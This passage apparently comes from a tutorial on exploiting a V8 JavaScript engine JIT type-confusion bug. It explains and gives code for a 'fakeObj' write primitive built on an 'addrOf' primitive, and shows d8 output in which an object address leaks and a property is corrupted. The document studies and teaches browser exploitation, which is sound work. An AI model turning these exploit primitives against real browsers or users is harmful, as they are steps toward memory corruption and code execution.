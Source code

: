 ```js
```

## The `fakeObj` Write Primitive

The `fakeObj` primitive, short for "Fake Object", allows us to write data to essentially a fake object by exploiting our constructed type confusion. In essence, the write primitive is just the inverse of our `addrOf` primitive.

To create the `fakeObj` function, we simply make a small modification to the original `addrOf` function. In our `fakeObj` function, we store the original value of our object in a variable called `orig`. After we overwrite it, we return the original value and compare it in the JIT function.

For testing, we try to overwrite the `x` property of `p1` with the `0x41414141n` double. Due to the type confusion, this will overwrite the `y` property of our object in `p2` when the bug triggers in the JIT code. If we successfully corrupt the value and later return it via the `orig` parameter, it should no longer equal 13.37.

The `fakeObj` function will look like so:

```js
function fakeObj() {
    eval(`
    function vuln(obj) {
      obj.inline;
      this.Object.create(obj);
      let orig = obj.p${p1}.x;
      // Overwrite property x of p1, but due to type confusion
      // we overwrite property y of p2
      obj.p${p1}.x = 0x41414141n;
      return orig;
    }
  `);

    let obj = {z: 1234};
    let pValues = [];
    pValues[p1] = {x: 13.37};
    pValues[p2] = {y: obj};

    for (let i = 0; i < 10000; i++) {
        let res = vuln(makeObj(pValues));
        if (res != 13.37) {
            return res;
        }
    }
}
```

After updating our code with the new `fakeObj` primitive, and executing it within d8, we should get output similar to the following:

```
C:\dev\v8\v8\out\x64.debug>d8 --allow-natives-syntax C:\Users\User\Desktop\poc.js
[+] Finding Overlapping Properties...
[+] Properties p6 and p30 overlap!
[+] Leaking Object Address...
[+] Object Address: 0x21eacf99a08
[+] Corrupting Object Address...
[+] Leaked Data: 1094795585
```
